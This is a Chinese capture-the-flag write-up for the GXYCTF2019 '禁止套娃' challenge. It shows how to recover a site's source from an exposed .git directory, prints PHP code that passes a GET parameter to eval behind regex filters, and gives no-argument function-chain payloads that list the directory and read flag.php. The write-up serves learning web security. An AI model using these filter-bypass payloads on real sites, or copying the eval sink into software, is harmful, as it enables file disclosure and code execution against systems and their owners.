



# [GXYCTF2019]禁止套娃

## Tag


***

## Writeup

Dirsearch 工具一搜即可得到有 git 源码和 flag.php：



直接上 Githack，得到源码：

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

需要传入 exp 参数，满足不能用伪协议读取，`preg_replace('/[a-z,_]+\((?R)?\)/'`  表示使用的函数不能带有参数，读取当前目录使用 Payload `print_r(scandir(current(localeconv())));`，其中 `localeconv()` 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是 .，`current()` 函数返回数组中的当前单元，默认取第一个值。`



要想读取倒数第二个，可以用 `next()` 函数，将内部指针指向数组的下一个元素，并输出，`array_reverse()` 函数可以将数组翻转顺序，因此最终 Payload：`?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));`

